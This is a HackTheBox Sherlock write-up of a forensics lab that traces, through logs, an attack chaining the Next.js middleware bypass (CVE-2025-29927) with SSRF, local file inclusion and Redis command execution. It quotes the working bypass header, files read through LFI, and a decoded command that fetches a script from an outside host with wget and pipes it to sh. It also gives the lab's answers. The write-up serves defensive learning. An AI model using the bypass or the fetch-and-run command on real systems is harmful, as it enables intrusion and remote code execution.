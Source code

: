 # [HackTheBox Sherlocks - NeuroSync-D](https://app.hackthebox.com/sherlocks/NeuroSync-D)
![88c28e4ff83a53a51595847681cbfab9.png](/_resources/88c28e4ff83a53a51595847681cbfab9.png)
**Scenario:**
NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.

* * *
![a0cde20a073d5ec4a92ea8306e851214.png](/_resources/a0cde20a073d5ec4a92ea8306e851214.png)

On this sherlock, we will have to dig into how the Next.js middleware bypass could be exploited and could be chained for SSRF, Local File Inclusion and command execution on Redis! 

we will have 5 log files to investigate from
1. `access.log`: This is typically a web server log which records every HTTP/S request made to the system.
2. `bci-device.log`: This is likely a custom log related to a **BCI** (Brain-Computer Interface) or a similarly named device/system. It logs interactions between the software and the physical or virtual device.
3. `data-api.log`: Log file from a backend API that handles data requests.
4. `interface.log`: This tracks what’s happening on the user interface (GUI or CLI). It logs how users interact with the system or app front-end.
5. `redis.log`: Logs from Redis, an in-memory database often used for caching, session storage, or real-time data.

>Task 1: What version of Next.js is the application using?

![ade2336486fb2cece942c8e6419515fd.png](/_resources/ade2336486fb2cece942c8e6419515fd.png)

Since Next.js is React-based full-stack framework so we could inspect the `interface.log` to find out the version and also the local port that Next.js-based application was running on the server as shown in the image above.

```
15.1.0
```

>Task 2: What local port is the Next.js-based application running on?
```
3000
```

>Task 3: A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?

![c28e0a8bb94a5d569e8131cc270e10eb.png](/_resources/c28e0a8bb94a5d569e8131cc270e10eb.png)

In March 2025, the new Next.js middleware bypass vulnerability was disclosed with **9.1 CVSS** score which threat actor/attack can send the `x-middleware-subrequest` header that meant to be used internally with a specific value to **trick the application into treating them as internal subrequests** which effectively bypass middleware authorization and access the endpoint/resources that are not intended to be accessed without proper authorization.  

![b16cd9bed4c7da3d6f3d5b6274acc801.png](/_resources/b16cd9bed4c7da3d6f3d5b6274acc801.png)

An article published on [Project Discovery](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass) also provides different values that could be used with `x-middleware-subrequest` header on different version of vulnerable Next.js and also provides Nuclei template to discover this vulnerability.

![435ca2036c9e979fd31214f254a1f89b.png](/_resources/435ca2036c9e979fd31214f254a1f89b.png)

The article also explained how this template works which will help us on this sherlock as well! 

```
CVE-2025-29927
```

>Task 4: The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?

![0196e129488dfc2a15e293bd767e363e.png](/_resources/0196e129488dfc2a15e293bd767e363e.png)

Lets check out the `access.log` file which we can see that there is only a single IP address that interacted with the Next.js application.

![a003ff40df544beda7fe95b4c093bd80.png](/_resources/a003ff40df544beda7fe95b4c093bd80.png)

Then we can read the content of the log file which we can see that the first HTTP response beside `/` happened at 11:37:44.

```
main-app.js
```

>Task 5: Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?

![52b6df7a7764762f1d9e4af57084d7db.png](/_resources/52b6df7a7764762f1d9e4af57084d7db.png)

We can see that after the attacker discovered main page of this Next.js application, an api endpoint was requested constantly by the attacker and the first 5 requests are resulted in Unauthorized response.

```
/api/bci/analytics
```

>Task 6: How many requests to this endpoint have resulted in an "Unauthorized" response?

![2ff32fe9e1570a4940e1262c1038b803.png](/_resources/2ff32fe9e1570a4940e1262c1038b803.png)

We know that the first 5 request to this api endpoint resulted in Unauthorized response but is there more?, the result from `grep 401 access.log` command shows that there are no more than this.

```
5
```

>Task 7: When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?

![89447a341e7c1d699735e7065a4b9a47.png](/_resources/89447a341e7c1d699735e7065a4b9a47.png)

Then after those 5 unauthorized access, HTTP 200 status was seen from the 6th request and the rest and it indicates that the middleware authorization has been bypassed according to Nuclei template provides by [Project Discovery](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass).

```
2025-04-01 11:38:05
```

>Task 8: Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?

![8fee94ba380637d33571ea851dc3ceae.png](/_resources/8fee94ba380637d33571ea851dc3ceae.png)

Since the Next.js running on this application is 15.1 which mean the value of `x-middleware-subrequest` header has to be `middleware:middleware:middleware:middleware:middleware` to actually get to trigger this vulnerability 

and from `interface.log`, we can see that there are 4 attempts trying to get this vulnerability to work which was resulting to successfully exploited this vulnerability at the end.

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

>Task 9: The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?

![1b09ac335741eb728aaeee9d8f8aacb9.png](/_resources/1b09ac335741eb728aaeee9d8f8aacb9.png)

We can inspect the `data-api.log` file which we can see that the attacker used curl to trigger SSRF vulnerability and discovered another internal API on port 4000 which attacker then proceed to find other endpoint on this API.

```
4000
```

>Task 10: After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?

![f7042475e8f34040c76a5a282b19ce86.png](/_resources/f7042475e8f34040c76a5a282b19ce86.png)

We could keep scrolling until we finally see the payload that resemble Local File Inclusion vulnerability exploitation payload from `/logs` endpoint which attacker found that he could leverage `logFile` variable on this endpoint to list file from the server.

```
/logs
```

>Task 11: When the vulnerable endpoint found was used maliciously for the first time?

![f7042475e8f34040c76a5a282b19ce86.png](/_resources/f7042475e8f34040c76a5a282b19ce86.png)

We can see that the attacker started with `/etc/passwd` first then went to `/proc/self/environ` later.

```
2025-04-01 11:39:01
```

>Task 12: What is the attack name the endpoint is vulnerable to?
```
Local File Inclusion
```

>Task 13: What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?

![b796692387a8c743b2a92719f7da58d6.png](/_resources/b796692387a8c743b2a92719f7da58d6.png)

Lastly the attacker then used LFI to get secret key file from tmp directory before went to access Redis with the key obtained.

```
secret.key
```

>Task 14: Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?

![79efce5295123a9c70b884785a597551.png](/_resources/79efce5295123a9c70b884785a597551.png)

From redis log, we can see that the attacker executed base64 command after he successfully compromised secret key to access Redis.

```
OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb
```

>Task 15: Once decoded, what is the command?

![04e2d568d2a8e4db3133366bbbec8cbb.png](/_resources/04e2d568d2a8e4db3133366bbbec8cbb.png)

We can copy the base64 to decode it directly with CyberChef which we can see that the attacker trying to fetch the bash script from C2 and execute it.

![7c3c171fd417253729cad642ed03a045.png](/_resources/7c3c171fd417253729cad642ed03a045.png)

We could also find the same command from `bci-device.log` which gave us an extra context that this command did not work due to the missing `wget` binary on the server.

```
wget http://185.202.2.147/h4Pln4/run.sh -O- | sh
```

https://labs.hackthebox.com/achievement/sherlock/1438364/879

And now we are done!
* * *
